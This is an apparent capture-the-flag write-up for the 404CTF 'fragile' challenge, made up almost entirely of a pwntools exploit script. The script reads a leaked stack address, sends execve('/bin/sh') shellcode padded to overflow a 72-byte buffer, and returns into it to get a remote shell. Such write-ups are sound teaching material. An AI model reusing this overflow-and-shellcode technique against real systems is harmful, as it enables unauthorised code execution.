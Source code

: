 Before we start you need to download the binary from here : [Binary](./fragile).

Here we go, let's start by checking the architecture of the binary with : 
```console
file fragile
```
```python
from pwn import *

target = remote('challenge.404ctf.fr', 31720)
#target = process('./fragile') 

# Setting up the leak
# 0x7ffe3c40e910
screen = target.recvline().decode()
leak = target.recvline().decode().strip("Cadeau :").strip("\n")
leak = bytes(leak, 'utf-8')
leak = int(leak, 16)

# Print the leak
print(hex(leak))

# Setting up the Payload
payload = b""
payload += b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"
payload += b"A"*(72 - len(payload))
payload += p64(leak)

#gdb.attach(target, gdbscript='b* 00400668')
target.sendline(payload)


target.interactive()
```

